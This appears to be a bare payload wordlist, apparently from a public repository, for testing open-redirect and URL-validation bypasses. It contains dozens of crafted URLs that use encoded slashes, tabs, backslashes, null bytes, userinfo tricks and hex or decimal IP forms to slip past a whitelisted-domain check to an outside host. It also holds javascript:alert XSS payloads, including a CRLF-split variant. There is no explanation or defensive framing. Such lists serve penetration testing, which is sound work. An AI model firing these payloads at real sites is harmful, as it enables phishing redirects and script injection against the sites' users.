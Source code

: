 ////localdomain.pw/%2f%2e%2e
////www.whitelisteddomain.tld@localdomain.pw/%2f%2e%2e
https:///localdomain.pw/%2f%2e%2e
https:///www.whitelisteddomain.tld@localdomain.pw/%2f%2e%2e
/https://localdomain.pw/%2f%2e%2e
/https://www.whitelisteddomain.tld@localdomain.pw/%2f%2e%2e
/https:///localdomain.pw/%2f%2e%2e
/https:///www.whitelisteddomain.tld@localdomain.pw/%2f%2e%2e
/%09/localdomain.pw
/%09/www.whitelisteddomain.tld@localdomain.pw
//%09/localdomain.pw
//%09/www.whitelisteddomain.tld@localdomain.pw
///%09/localdomain.pw
///%09/www.whitelisteddomain.tld@localdomain.pw
////%09/localdomain.pw
////%09/www.whitelisteddomain.tld@localdomain.pw
https://%09/localdomain.pw
https://%09/www.whitelisteddomain.tld@localdomain.pw
/%5clocaldomain.pw
/%5cwww.whitelisteddomain.tld@localdomain.pw
//%5clocaldomain.pw
//%5cwww.whitelisteddomain.tld@localdomain.pw
///%5clocaldomain.pw
///%5cwww.whitelisteddomain.tld@localdomain.pw
////%5clocaldomain.pw
////%5cwww.whitelisteddomain.tld@localdomain.pw
https://%5clocaldomain.pw
https://%5cwww.whitelisteddomain.tld@localdomain.pw
/https://%5clocaldomain.pw
/https://%5cwww.whitelisteddomain.tld@localdomain.pw
https://localdomain.pw
https://www.whitelisteddomain.tld@localdomain.pw
javascript:alert(1);
javascript:alert(1)
//javascript:alert(1);
/javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
java%0d%0ascript%0d%0a:alert(0)
//localdomain.pw
https:localdomain.pw
//localdomain%E3%80%82pw
\/\/localdomain.pw/
/\/localdomain.pw/
/%2f%5c%2f%67%6f%6f%67%6c%65%2e%63%6f%6d/
//localdomain%00.pw
https://www.whitelisteddomain.tld/https://localdomain.pw/
";alert(0);//
javascript://www.whitelisteddomain.tld?%a0alert%281%29
http://0xd8.0x3a.0xd6.0xce
http://www.whitelisteddomain.tld@0xd8.0x3a.0xd6.0xce
http://3H6k7lIAiqjfNeN@0xd8.0x3a.0xd6.0xce
http://XY>.7d8T\205pZM@0xd8.0x3a.0xd6.0xce
http://0xd83ad6ce
http://www.whitelisteddomain.tld@0xd83ad6ce
http://3H6k7lIAiqjfNeN@0xd83ad6ce
http://XY>.7d8T\205pZM@0xd83ad6ce
http://3627734734
